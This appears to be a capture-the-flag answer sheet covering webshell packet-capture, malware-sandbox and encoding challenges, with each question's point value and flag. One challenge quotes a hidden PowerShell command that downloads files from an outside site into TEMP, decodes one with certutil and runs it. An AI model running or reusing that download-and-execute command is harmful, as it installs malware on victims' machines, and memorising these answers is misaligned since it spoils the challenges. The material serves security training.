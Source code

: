 ### MoreShellz
100
Webshell.pcap What file did the attacker leverage to gain information about the webserver?

flag: badshell.php


### ShellzAgain
100
Webshell.pcap

What was the contents of secrets.txt?

flag: This should not be accessible to the outside world!



### Feel the Power
100
Review the following command: powershell -windowstyle hidden -command Import-Module BitsTransfer; Start-BitsTransfer -Source http://atest001.site/GeTaj.dat,http://atest001.site/FedAl.dat,http://atest001.site/VNGg.dat -Destination "$env:TEMP\vido.com","$env:TEMP\sfera","$env:TEMP\VNGg.com"; Set-Location -Path "$env:TEMP"; certutil -decode sfera polp; Start-Process vido.com -ArgumentList polp

What malware family did this activity come from?

flag: -NOT SOLVED-

======================================================
## Malware

### Ping pong
50
Examine the sandbox analysis at https://app.any.run/tasks/16c5ed20-ac5f-4b87-84cb-2466b5126f9d/.

What domain did the malware ping out to?

flag: pixeldrain.com

### Checking in
100
Examine the sandbox analysis here: https://app.any.run/tasks/99dfb3fc-e304-4df7-8318-b087286fd498/.

What city was the victim located in?

flag: London

======================================================
## Encoding

### What's Cooking?
100
Decode this string and find the flag: BUDBCQAgEFrFoVqgxMuDXvVqexkW6syNfuBfurQq.
